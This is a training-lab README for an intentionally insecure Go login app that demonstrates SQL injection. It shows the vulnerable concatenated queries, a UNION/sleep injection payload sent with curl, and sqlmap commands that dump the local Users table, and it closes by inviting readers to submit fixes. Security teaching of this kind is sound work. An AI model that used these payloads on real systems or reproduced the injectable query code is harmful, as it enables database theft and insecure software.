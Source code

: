 # CopyNPaste API

<img src="images/CopyNPaste.png" align="center"/>

CopyNPaste is a Golang web application that uses an API and a simple front end to simulate a login page. It has both `/register` and `/login` routes that, by communicating with a MySQL database, enable users to register and enter into a generic system.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **SQL Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to b3d3cLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```sh
cd b3d3cLabs/owasp-top10/a1/copy-n-paste
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<img src="images/CopyNPaste.png" align="center"/>

## Get to know the app 💉

To properly understand how this application works, you can follow these simple steps:

- Register a new user via front-end.
- Login as this user via front-end.
* Register another user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password", "passcheck":"password"}' http://localhost:10001/register
```
* Login as this second user now using command line:
```sh
curl -s -H "Content-Type: application/json" -d '{"user":"bob", "pass":"password"}' http://localhost:10001/login

```

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of SQL queries

After reviewing `NewUser()` , `CheckIfUserExists()` and `AuthenticateUser()` from [`db.go`]((https://github.com/b3d3c/b3d3cLabs/blob/master/owasp-top10-2017/a1/copy-n-paste/app/util/db.go#)) file, it was possible to see that some input from users are concatenated with SQL queries, as shown in the following code snippets:

```go
query := fmt.Sprint("select * from Users where username = '" + user + "'")

```

```go
query := fmt.Sprint("insert into Users (username, password) values ('" + user + "', '" + passHash + "')")
```

```go
query := fmt.Sprint("select username from Users where username = '" + username + "'")
```

As no validation is being made on these variables, SQL injections may be successfully executed in the database. Using the web interface, we can send some information, using the form from "inspect page", to better understand how it communicates with the API.

<img src="images/attack-0.png" align="center"/>

To confirm the input field is vulnerable, the following payload could be used to test if a 5 seconds delay will be noted after sending it:

```
-1' UNION select 1,2,sleep(5) -- '
```

<img src="images/attack-1.png" align="center"/>

Using `curl` on CLI interface, we can test it again, this time with a larger 30 seconds delay:

```sh
curl -s -H "Content-Type: application/json" -d '{"user":"-1'\'' union select 1,2,sleep(30) -- ", "pass":"password"}' http://127.0.0.1:10001/login
```

Request:

<img src="images/attack-2.png" align="center"/>

30 seconds later, thus confirming we can execute commands on the server:

<img src="images/attack-3.png" align="center"/>

#### 🔥

An attacker could now create any malicious SQL queries and send them to the API that, in theory, would be executed. For this attack narrative, [sqlmap](https://github.com/sqlmapproject/sqlmap) will be used to exemplify how an automated SQL Injection attack may be performed.

To install sqlmap on a Mac you can simply type:

```sh
brew install sqlmap
```

The first possible step is to create a file, `postRequest.txt`, containing the HTTP POST itself, as shown in the following code:

```sh
POST /login HTTP/1.1
Host: 127.0.0.1:10001
User-Agent: curl/7.54.0
Accept: */*
Content-Type: application/json
Content-Length: 31

{"user":"user", "pass":"password"}
```

Before executing the attack, you can open a new tab in your terminal and type the following command to observe how the malicious requests will be received by the app:

```sh
docker logs a1_api -f
```

After that, we can now use `-r` option and wait for sqlmap to perform multiples malicious requests until it finds the vulnerable parameter:

```sh
sqlmap -r postRequest.txt
```

<img src="images/attack-4.png" align="center"/>

After understanding how this database is structured, an attacker could use the following command to retrieve database details:

```sh
sqlmap -r postRequest.txt --tables
```

And then retrieve sensitive information from it:

```sh
sqlmap -r postRequest.txt -D a1db -T Users --dump
```

<img src="images/attack-5.png" align="center"/>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to:

* Run SQL queries in the database.

## References

* Docker Install:  https://docs.docker.com/install/
* Docker Compose Install: https://docs.docker.com/compose/install/
* App: http://localhost:10001
